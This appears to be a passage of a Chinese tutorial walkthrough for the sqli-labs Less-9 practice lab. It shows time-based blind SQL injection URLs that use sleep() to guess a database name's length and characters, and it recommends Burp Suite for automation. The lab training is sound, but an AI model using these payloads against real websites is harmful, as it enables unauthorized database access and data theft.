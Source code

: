 

**猜当前数据库字符串长度:** `http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if(length(database()) = 8,sleep(5),null) --+`

![](sqli-labs/1779065-20210221104726936-1847986806.png)



**猜当前数据库的名字:** `http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if(ascii(substr(database(),1,1)) = 115,sleep(5),null) --+` 



后面的注入流程是猜表名和字段名, 这里就省略过程了, 推荐使用burpsuite进行自动化盲注, 以此提高时间效率

对要猜的

![](sqli-labs/1779065-20210221113259705-1574116271.png)
![](sqli-labs/1779065-20210221113306996-1437196043.png)
